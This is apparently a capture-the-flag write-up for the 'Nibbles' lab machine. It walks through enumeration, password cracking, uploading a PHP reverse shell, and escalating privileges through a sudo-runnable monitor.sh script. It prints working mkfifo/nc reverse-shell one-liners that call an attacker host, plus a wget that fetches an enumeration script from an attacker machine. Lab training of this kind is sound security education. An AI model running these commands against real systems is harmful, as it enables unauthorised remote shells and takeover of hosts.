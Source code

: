 # Nibbles Box

1. Enumerate using port scanning against target application to find out open ports and the services that are running. Use tool such as nmap
2. Web footprinting techniques help to gather more information about the target, use tools like whatweb, gobuster to scan directories for web application.
3. Performing password cracking ,we can use tools like hashcat/hydra. However it is important to analyze information that is available,it is not uncommon to crack passwords by crawling websites using cewl
4. Commence initial foothold by trying to inject reverse shell after successfully logging into website so that we can inject arbitary commands that we want
5.  To inject reverse shell, can upload php file with reverse bash shell command -&#x20;

    ```shell-session
    rm /tmp/f;mkfifo /tmp/f;cat /tmp/f | /bin/sh -i 2>&1|nc <ATTACKING IP> <LISTENING PORT) >/tmp/f
    ```


6. It will be best if we can inject a fully interactive terminal , privillege commands such as su or sudo can be only run using a terminal. We can use python to create to upgrade to a full `python3 -c 'import pty; pty.spawn("/bin/bash")'`

<figure><img src=".gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

7.  Privilege escaltion -  we can run [LinEnum.sh](https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh) to run automated privllege checks. Host the LinEnum bash script in attacker machine\
    `sudo python3 -m http.server 8080`\
    \
    &#x20;and get the victim machine to download this file by using wget \
    `wget http://10.10.15.38:8080/LinEnum.sh`\
    \
    Running ./LinEnum, we can see interesting sudo privlliges that can be run without password\


    <figure><img src=".gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>
8. Inject reverse shell into bash script with netcat listener  `echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.2 8443 >/tmp/f' | tee -a monitor.sh`&#x20;
9.  Start listner script with reverse shell listner using sudo command&#x20;

    ```shell-session
    sudo /home/nibbler/personal/stuff/monitor.sh
    ```

Also another way is to use metasploit console and its libraries which are far more straightforward
